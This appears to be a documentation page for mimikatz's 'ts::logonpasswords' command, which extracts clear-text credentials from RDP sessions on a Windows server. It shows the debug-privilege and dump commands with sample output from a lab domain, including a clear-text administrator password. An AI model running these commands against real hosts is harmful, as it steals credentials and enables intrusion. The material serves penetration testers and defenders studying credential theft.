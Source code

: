 # logonpasswords

`ts::logonpasswords` extracts clear text credentials from RDP running sessions (server side).

It supports RDP clients utilizing [**mstscax.dll**](https://docs.microsoft.com/en-us/windows/win32/termserv/mstscax) like mRemoteNG, Remote Desktop Manager, RDCMan and of course the Windows native one. It also supports X11 RDP clients such as rdesktop and freerdp.

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # ts::logonpasswords
!!! Warning: false positives can be listed !!!

   * Web Credentials? *
   Domain      : hacklab.local
   UserName    : Administrator

         * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 e4 a2 a6 9d 83 c5 bd 0c 3a a7 72 4f 88 dc d3 b4 e0 bf 11 ca 71 11 65 cc 16 c0 58 5a 56 49 1b eb 12 b1 e5 a1 d2 25 e6 8c 08 62 92 aa 04 45 1e 3b
   * Web Credentials? *
   Domain      : hacklab.local
   UserName    : Administrator

         * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 e4 a2 a6 9d 83 c5 bd 0c 3a a7 72 4f 88 dc d3 b4 e0 bf 11 ca 71 11 65 cc 16 c0 58 5a 56 49 1b eb 12 b1 e5 a1 d2 25 e6 8c 08 62 92 aa 04 45 1e 3b
   Domain      : hacklab
   UserName    : Administrator
   Password/Pin: Super_SecretPass1!
```

_(Demonstration target is a Windows Server 2016 Essentials)_

